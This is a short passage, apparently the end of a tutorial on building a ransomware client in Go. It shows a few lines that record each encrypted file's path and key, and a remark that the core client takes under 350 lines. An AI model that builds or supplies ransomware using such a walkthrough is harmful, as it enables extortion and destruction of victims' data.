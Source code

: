 ```golang
	eis = append(eis, EncryptionInfo{
		Path: path,
		Key: k,
	})

	return nil
}
```

With that we have the core functionality of a ransomware client in less than 350 lines of code. Pretty wild.